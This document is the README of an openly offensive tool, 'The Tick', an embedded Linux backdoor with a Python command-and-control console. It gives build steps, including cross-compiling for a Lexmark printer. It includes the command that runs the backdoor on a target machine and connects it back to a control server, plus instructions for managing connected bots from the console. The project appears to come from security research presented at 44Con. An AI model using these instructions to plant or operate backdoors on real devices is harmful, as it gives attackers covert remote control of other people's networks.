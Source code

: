 # The Tick

A simple embedded Linux backdoor.

- [The Tick](#the-tick)
  * [Compiling](#compiling)
  * [Installing](#installing)
  * [Usage](#usage)
  * [Media](#media)

![Screenshot 1](doc/screenshot-big.png "Example usage")

## Compiling

The Tick depends only on libcurl, so make sure you have the corresponding development package. For example on Debian based distributions you would do the following:

```
sudo apt-get install libcurl-dev
```

Once the dependencies are installed just run the makefile:

```
cd src
make clean
make
```

Once the "make" command has run to completion, the compiled binary can be found at the "bin" folder. This is the binary you want to run on your target machine to control it remotely.

When cross-compiling for supported platforms, the dependency resolution and compilation is done automatically for you. Currently the only supported cross-compiling platform is the Lexmark CX310DN printer, but more devices will be added later. Consult the makefile for more details.

The command and control console is written in Python and therefore needs not be compiled.

## Installing

Obtaining persistence on the backdoor will depend heavily on the target platform, and therefore is not documented here.

On the target machine, run the backdoor binary with the following arguments:

```
./ticksvc ADDR PORT
```

Where "ADDR" and "PORT" must be replaced by the IP address and port where the command and console will be listening. The default port is 5555.

The command and control console requires no installation, but may have unresolved dependencies. Run the following command to ensure all dependencies are properly installed (note this does not need sudo):

```
pip install --upgrade -r requirements.txt
```

In most Linux desktop environments the following "Tick.desktop" file will create an icon you can double click to run the console:

```
[Desktop Entry]
Encoding=UTF-8
Value=1.0
Type=Application
Name=The Tick
GenericName=The Tick
Comment=An embedded Linux backdoor
Icon=/opt/thetick/doc/logo.png
Exec=/opt/thetick/tick.py
Terminal=true
Path=/opt/thetick/
```

The exact location for the Tick.desktop file may vary across Linux distributions but generally placing it in the desktop should work. Make sure to edit the path to wherever you downloaded The Tick (/opt/thetick in the above example).

## Usage

To run the backdoor binary on the target platform, set the control server hostname and port as command line options. For example:

```
./ticksvc control.example-domain.com 5555
```

At the control server, you may want to run the console inside a GNU screen instance or similar:

```
sudo apt-get install screen
screen -S thetick ./thetick.py
```

That way you can detach from the console by pressing Control+A followed by D. You can return to the console later like this:

```
screen -r thetick
```

The console will let you know when a new bot connects to it. Use the "bots" command to show the currently connected bots, and the "use" command will select a bot to work with. The "help" command shows the user manual.

Here are a few screenshots illustrating what the console is capable of:

![Screenshot 2](doc/screenshot-banners.png "Command line switches")

![Screenshot 3](doc/screenshot-help.png "Interactive console help")

## Media

The Tick has been referenced in the following 44Con presentation by Daniel Romero and Mario Rivas:

[![](http://img.youtube.com/vi/plu7U0Sq9HQ/0.jpg)](http://www.youtube.com/watch?v=plu7U0Sq9HQ "Office Equipment: The Front Door To Persistence On Enterprise Networks - D. Romero and M. Rivas")

